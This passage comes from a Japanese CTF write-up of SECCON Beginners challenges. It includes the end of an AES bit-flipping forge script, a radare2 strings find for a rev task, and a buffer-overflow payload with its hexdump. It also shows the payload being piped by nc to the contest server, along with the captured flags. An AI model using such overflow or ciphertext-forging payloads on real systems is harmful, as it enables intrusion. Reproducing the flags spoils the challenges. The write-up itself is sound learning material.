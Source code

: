 ```python
    by = iv[i]^arr[i]
    ans.append(by)
for i in range(L,16):
    ans.append(iv[i])
print((bytes(ans) + enc).hex())
```

出てきたコードを 2 の暗号文を戻して実行するやつに突っ込むとフラグを得る。

`ctf4b{b1tfl1pfl4ppers}`

個人的にはCommandが優勝だと思った。AESの仕組み理解に役立つと感じたし、自分があまりAES理解していなかったのがこれで理解深まったので。

### Quiz

rev問。

radare2で `s <tab>` すると、

```text
ctf4b_w0w_d1d_y0u_ca7ch_7h3_fl4g_1n_0n3_sh07
```

あきらかに怪しい。そのままでは通らない。

記号かな？とちょっと考えて以下で通った。

`ctf4b{w0w_d1d_y0u_ca7ch_7h3_fl4g_1n_0n3_sh07?}`

### BeginnersBot

初心者向けバッファオーバーフローのPwn問。

gdb-pedaとpattcとpattoあたりを眺めつつ地道にpayloadを作った。16byte alignmentは気にした気がする。

以下のようなファイルを用意 (`python3 -c 'print("A"*... + "\x00...")' > input_debug_0` のようにして生成)

```text
❯ hexdump input_debug_0 
0000000 3436 410a 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 e6c3 4011 0000
0000030 0000 0a00                              
0000034
```

`./chall < input_debug_0` でうまくいくことを確認して、ncで接続

```text
❯ nc beginnersbof.quals.beginners.seccon.jp 9000 < input_debug_0 
How long is your name?
What's your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��@ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}
Segmentation fault
```

`ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}`

### H2
